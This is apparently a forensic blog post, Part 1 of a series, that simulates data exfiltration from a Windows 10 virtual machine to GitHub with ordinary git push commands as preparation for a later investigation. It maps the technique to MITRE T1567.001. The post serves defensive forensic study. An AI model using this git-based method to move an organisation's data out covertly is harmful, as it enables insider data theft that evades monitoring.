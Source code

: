 ```yaml
---
title: "Data Exfiltration via Git: A Forensic Investigation. Part 1, Exfiltration"
layout: post
categories: [Windows, Registry]
image:
  path: /assets/2024/dataexfil/data_exfiltration.png
  alt: Data exfiltration
---
```

In this two-part blog post, we’ll explore how data exfiltration to GitHub can be carried out from a Windows 10 workstation and how to investigate such incidents. Part 1 focuses on how data can be exfiltrated using Git and GitHub. In Part 2, we'll dive into forensic techniques to retrieve evidence of data exfiltration and determine what was sent from the workstation.

## Why Data Security Matters
With data security becoming increasingly [important](https://www.cbi.eu/news/do-not-underestimate-importance-data-security-data-protection-privacy) for organizations, preventing data loss is a top priority. One well-known precaution is disabling write access to USB devices, but that alone doesn’t address all potential threats. A growing concern is data exfiltration via the internet, where sensitive information could be uploaded to external servers or platforms like GitHub, often without raising alarms.

### Understanding Data Exfiltration
[Data exfiltration](https://www.fortinet.com/resources/cyberglossary/data-exfiltration) refers to the unauthorized transfer of data from one device to another, typically from an internal device to an external, unauthorized one. This can be done by external attackers who’ve gained access to your system or by an insider who either knowingly or unknowingly exposes company data.

Data can be exfiltrated in many ways—through email, cloud storage, or even social engineering techniques. However, **Git-based exfiltration** is more unique because it blends with normal development workflows, making it harder to detect.

### Git and GitHub: Tools of Convenience or Risk?
While working on this website, I used [git](https://www.mennovanveenendaal.com/posts/Building-a-website-using-Github-pages/) and GitHub for legitimate purposes, but it became clear how easily these tools could be used for malicious activities, such as covert data exfiltration.

In corporate environments, Git and GitHub are indispensable for software development. However, giving employees more [privileges](https://en.wikipedia.org/wiki/Principle_of_least_privilege), than they need, especially administrative access. This can lead to potential misuse. Developers often request admin rights to, for example, test their code. These rights can allow Git to be installed or manipulated for unauthorized data transfers.

Why does Git-based exfiltration work so well? Because it looks like regular network traffic, blending in with day-to-day activities. For instance, pushing code to a GitHub repository is common for developers, making it an ideal cover for exfiltrating sensitive data unnoticed.

![GitHub](/assets/2024/dataexfil/github.png)
_Fig.1 GitHub Logo_

### MITRE ATT&CK Framework and Data Exfiltration
The MITRE ATT&CK framework is an industry-standard that categorizes various adversary tactics and techniques. The use of Git for exfiltration falls under MITRE ID [T1567.001](https://attack.mitre.org/techniques/T1567/001/), which covers the exfiltration of data via web services like GitHub.

MITRE highlights that adversaries can use GitHub's APIs over HTTPS, providing an additional layer of stealth, as HTTPS is encrypted and widely used in corporate environments. This makes it much harder for traditional security tools to distinguish between legitimate and malicious traffic.

## Setting Up the Workstation for the Investigation
For this investigation, I set up a Windows 10 Home 22H2 virtual machine, updated it, and installed Git (version 2.47.0.windows.1) along with FTK Imager 4.7.1.2 to capture disk images for analysis. This Windows 10 machine served as the workstation from which the data was exfiltrated.

To simulate the exfiltration, I created a Git repository called `exfiltration_test` and a local folder named `secret_code` where the repository was initialized. I added a README file and committed it to GitHub using the following commands:
```shell
git config --global user.email "<my@email.biz>"
git config --global user.name "<user.name>"
echo "# exfiltration_test" >> README.md
git init
git add README.md
git commit -m "first commit"
git branch -M main
git remote add origin https://github.com/mennovanveenendaal/exfiltration_test.git
git push -u origin **main**
```

I then downloaded a [Chirpy Theme](https://www.mennovanveenendaal.com/posts/Setting-up-the-Chirpy-theme/) ZIP file (acting as "sensitive data") into the `secret_code` folder.
This folder contained:
- 48 folders
- 198 files
- 493,986 bytes of data (770,048 bytes on disk)

This size discrepancy is due to how files are stored, in clusters [on a disk](https://superuser.com/a/66826).  

### Data Exfiltration Simulation
With everything in place, I simulated data exfiltration by pushing the contents of the `secret_code` folder to GitHub with the following commands:
```shell
git add --all
git commit -m "data exfiltration"
git push -u origin main
```
At this point, the data was successfully exfiltrated to GitHub.
![Repository](/assets/2024/dataexfil/repository.png)
_Fig.2 GitHub repository_

## Next Step: Investigating the Exfiltration (Part 2)
After exfiltrating the data, I powered off the workstation. In Part 2 of this blog series, I will investigate the Windows 10 workstation to determine if data was sent to GitHub and what specific data was exfiltrated. By examining the disk images and log files, I’ll show how forensic analysis can uncover traces of these activities.

_This post is also published on [blog.jdriven.com](https://blog.jdriven.com/2024/10/exfiltration/)_